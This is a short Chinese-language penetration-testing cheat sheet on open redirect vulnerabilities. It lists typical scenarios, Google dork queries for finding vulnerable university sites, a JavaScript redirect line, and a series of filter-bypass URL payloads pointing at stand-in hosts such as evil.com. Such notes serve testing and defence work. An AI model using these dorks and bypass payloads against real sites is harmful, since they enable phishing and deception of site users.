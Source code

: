## **url重定向**
url形如：baidu.com/url=http://1.cn
此时跳转到1.cn，如果可以自定义拼接恶意url，则是重定向漏洞，可造成欺骗，钓鱼等。
场景：url变化的场景，来到登录页，登录成功后跳转，支付成功后回调跳转，第三方登录后跳转，功能设置的跳转等。
图片头像地址url可控。

如：<http://www.8899x.net/out.asp?url=http://baidu.com/>
搜索语法
```
inurl:"url=http://"
inurl:url=http://  site:edu.cn
inurl:redirect_uri  site:edu.cn
site:*.edu.cn inurl:url=http://
```
^
## **响应包304重定向**
修改响应包的304造成重定向。
^
## **xss的js脚本造成的重定向**
```
window.location = 'http://be.hkjcfootball.com/';
```
^
## **重定向绕过**
## nuclei中的绕过技巧：
http://xxx.xxx.xxx/%0a/baidu.com
http://xxx.xxx.xxx/%5C%5Cbaidu.com/%252e%252e%252f

## 其它url跳转绕过技巧：
http://xxx.xxx.xxx/redirect.php?url=/www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=//www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=///www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com\www.evil.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=.evil.com(可能会跳到evil.com)
http://xxx.xxx.xxx/redirect.php?url=.evil(可能会跳到www.evil.com.evil)
### 期望跳转到www.baidu.com
```
http://www.test.com[@www.baidu.com/tou

可绕过众多防御
http://@www.realsee.com[@www.baidu.com/tou

http://baidu.com\test.com
```
同理绕refer
![](.topwrite/assets/image_1742473716745.png)


## 绕过URL跳转
https://www.cnblogs.com/-meditation-/articles/16243218.html

## java代码审计漏洞-URL跳转
https://www.cnblogs.com/-meditation-/articles/16243853.html
